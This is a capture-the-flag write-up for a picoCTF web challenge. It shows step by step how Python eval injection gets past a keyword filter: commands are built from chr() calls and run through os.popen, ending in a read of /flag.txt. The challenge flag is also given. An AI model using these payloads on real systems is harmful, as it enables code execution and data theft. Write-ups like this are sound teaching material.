



We start with a webserver that has a 'loan calculator':


The description mentions they are using an `eval`, so to test it to start with let's use `1+1`.


> Note: From now I'll just have the 'Result' line for an output instead of screenshots.

So, do we have any other information? Checking the request headers we can see this: `Server: Werkzeug/3.0.6 Python/3.8.10`. This tells us it's a Python webserver which helps with payloads.

I look up for any articles talking about exploiting eval in Python and find [an article talking about Code Execution](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/#arbitrary-code-execution).


Let's try one of these payloads!
```
Error: Detected forbidden keyword 'os'.
```

Oh, so we have filtering! Let's find a way to not use `os`. As our payload has `os` as a string, we can obfuscate it using `chr()`'s in Python. Going to a Python CLI:
```
>>> ord('o')
111
>>> ord('s')
115
>>> chr(111)+chr(115)
'os'
```

So let's use `chr`'s (we are using `.popen(...).read()` instead of `.system()` as the output isn't printed):
```
__import__(chr(111)+chr(115)).popen('id').read()
```

We get a result:
```
Result: uid=999(app) gid=999(app) groups=999(app) 
```

So this works! Let's start `ls`ing for a fla-
```
Error: Detected forbidden keyword 'ls'.
```

Ugh alright, more `chr()`'s (This represents `ls /`)...
```
__import__(chr(111)+chr(115)).popen(chr(108)+chr(115)+chr(32)+chr(47)).read()
```

```
Result: app bin boot challenge dev etc flag.txt home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var 
```

There's our flag at `/flag.txt`! Let's make a payload (it censors `cat` and `.`'s so let's escape those):
```
__import__(chr(111)+chr(115)).popen(chr(99)+'at'+chr(32)+chr(47)+'flag'+chr(46)+'txt').read()
```

This uses `cat /flag.txt`, which gets the flag!

Flag: `picoCTF{D0nt_Use_Unsecure_f@nctions0cd8a9f1}`

